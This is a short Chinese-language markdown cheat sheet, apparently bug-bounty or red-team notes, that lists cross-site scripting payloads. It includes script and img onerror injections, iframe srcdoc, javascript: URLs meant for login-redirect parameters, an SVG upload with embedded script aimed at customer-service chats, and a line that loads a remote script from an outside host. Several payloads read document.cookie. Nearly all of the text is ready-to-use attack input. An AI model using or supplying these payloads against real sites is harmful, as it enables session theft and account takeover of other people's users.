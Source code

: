



# SRC宝典

## xss

```
<object width="400" height="400" data="//www.bilibili.com/video/BV1og411H7J
g/?share_source=copy_web" ></object> 插入这一段代码


<script>alert(1"hack")</script>#数字不要引号 字符要引号
<script src=http://xss.com/xss.js></script>
<script>alert(document.cookie)</script>

<img src=1 onerror=alert("hack")>
<img src=1 onerror=alert(/hack/)>
<img src=1 onerror=alert("document.cookie")>
<img src=1 onerror=alert(123)>
<img dynsrc="javascript:alert("xss");">
<img dynsrc="javascript:alert("xss")">
<img lowsrc="javascript:alert("XSS")">

<body onload=alert("XSS")>
<body background="javascript:alert("XSS")">

<iframe srcdoc="<img src=x onerror=alert(document.domain)>"></iframe>
<iframe srcdoc="<img src=x onerror=alert(1)>"></iframe>

登陆处跳转 输入账号密码后 修改url跳转参数 
?url=javascript:alert(1)
?redirect=javascript://%0aalert(1)


文件上传 shell传 含xss的html文件
svg 客服聊天处 把下面语句插到图片中间
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
  <circle cx="50" cy="50" r="40" stroke="green" stroke-width="4" fill="yellow" />
  <Script>Alert(/1/)</scRipt>
</svg>

$$\unicode{x3c!x2d-<img/src/onerror=alert('test1')//-x3e}$$

\href{javascript:alert(document.cookie)}{MaliciousLink}
```





# 红队笔记
